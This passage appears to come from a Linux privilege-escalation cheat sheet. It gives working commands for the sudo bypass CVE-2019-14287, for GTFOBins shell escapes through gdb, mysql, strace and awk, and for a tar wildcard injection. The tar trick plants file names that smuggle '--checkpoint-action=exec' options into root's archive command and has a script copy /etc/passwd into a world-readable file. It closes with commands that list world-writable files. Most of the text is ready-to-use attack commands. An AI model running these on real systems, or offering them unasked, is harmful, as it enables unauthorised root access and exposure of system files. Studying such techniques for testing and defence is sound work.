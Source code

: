 Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
